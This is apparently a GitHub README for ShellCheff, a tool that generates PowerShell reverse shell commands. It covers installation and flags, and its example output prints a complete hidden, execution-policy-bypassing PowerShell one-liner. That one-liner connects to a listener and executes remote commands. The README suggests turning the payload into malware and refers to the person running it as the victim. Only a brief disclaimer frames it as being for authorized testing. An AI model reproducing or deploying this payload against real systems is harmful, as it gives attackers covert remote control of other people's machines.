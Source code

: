 # ShellCheff
A tool that quickly generates PowerShell Reverse Shell commands to get remote access FAST, incredibly FAST.

# Installation

Clone the repository :
```bash
git clone https://github.com/Alperosci/ShellCheff.git
cd ShellCheff
```

Run the installation file:
```bash
chmod +x install.sh
./install.sh
```

# Usage

This is all flags and usages in tool:
```
usage: ShellCheff [-h] [-v] [-i IP] [-p PORT]

A program that allows you to make ReverseShell attacks FAST, incredibly FAST

options:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -i IP, --ip IP        Listener IP
  -p PORT, --port PORT  Listener PORT
```

## Example Usage
```
ShellCheff -i 127.0.0.0 -p 4444
 ____   _            _  _   ____  _             __   __ 
/ ___| | |__    ___ | || | / ___|| |__    ___  / _| / _|
\___ \ | '_ \  / _ \| || || |    | '_ \  / _ \| |_ | |_ 
 ___) || | | ||  __/| || || |___ | | | ||  __/|  _||  _|
|____/ |_| |_| \___||_||_| \____||_| |_| \___||_|  |_|  
                                                        

powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$client=New-Object System.Net.Sockets.TCPClient('127.0.0.0',4444);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=iex $data 2>&1 | Out-String;$sendback2=$sendback+'PS>'; $sendbyte=[Text.Encoding]::ASCII.GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"

            ^
            |
Use this command in Powershell (or you can create a malware) to get powershell SHELL

Creating listener

Listening on 0.0.0.0 4444
```

When the victim runs the payload, you will get a PowerShell session on their machine.

# Legal Notice / Disclaimer

This tool is developed for educational and authorized penetration testing purposes only.

Unauthorized use of this software against systems or networks without explicit permission is illegal and punishable by law.

By using this tool, you agree to take full responsibility for your actions and ensure that you have proper authorization before performing any security testing or exploitation.

The author is not responsible for any misuse or damage caused by this software.
